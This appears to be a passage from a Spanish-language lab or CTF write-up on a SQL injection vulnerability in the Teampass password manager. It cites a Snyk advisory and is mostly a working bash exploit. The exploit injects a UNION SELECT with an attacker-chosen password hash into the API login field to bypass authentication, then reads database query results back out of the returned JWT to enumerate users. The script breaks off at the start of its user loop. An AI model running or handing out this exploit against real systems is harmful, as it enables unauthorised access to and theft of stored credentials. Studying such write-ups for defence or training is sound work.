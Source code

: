 
## SQLI de Teampass


![paste](./images/5.jpeg)


Realizando una búsqueda rápida por Google, podemos encontrar un vulnerabilidad de SQLI a través de la misma API del Teampass donde el campo de login es vulnerable -> https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612  

```bash 

if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
```